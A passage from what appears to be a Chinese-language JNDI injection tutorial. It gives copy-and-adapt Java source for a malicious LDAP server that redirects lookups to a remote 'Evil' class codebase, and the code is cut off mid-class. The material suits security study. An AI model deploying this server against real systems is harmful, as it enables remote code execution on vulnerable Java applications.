 

然后写个`LdapServer`（复制粘贴然后改一下url和port就可以了）：

```java
package com.feng.jndi;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;

public class LdapServer {
    private static final String LDAP_BASE = "dc=example,dc=com";


    public static void main (String[] args) {

        String url = "http://127.0.0.1:39777/#Evil";
        int port = 39654;


        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen",
                    InetAddress.getByName("0.0.0.0"),
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(url)));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port);
            ds.startListening();

        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;


        /**
         *
         */
        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
```